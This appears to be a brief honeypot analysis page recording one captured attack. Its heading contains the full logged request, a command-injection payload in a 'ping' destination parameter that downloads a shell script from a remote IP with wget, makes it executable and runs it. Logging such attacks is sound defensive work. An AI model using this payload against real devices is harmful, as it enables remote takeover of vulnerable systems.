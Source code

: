 # Analysis for /op_type=ping&destination=cd%20/tmp;%20wget%20http://185.239.242.63/lolol.sh;%20chmod%20777%20lolol.sh;%20sh%20lolol.sh
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 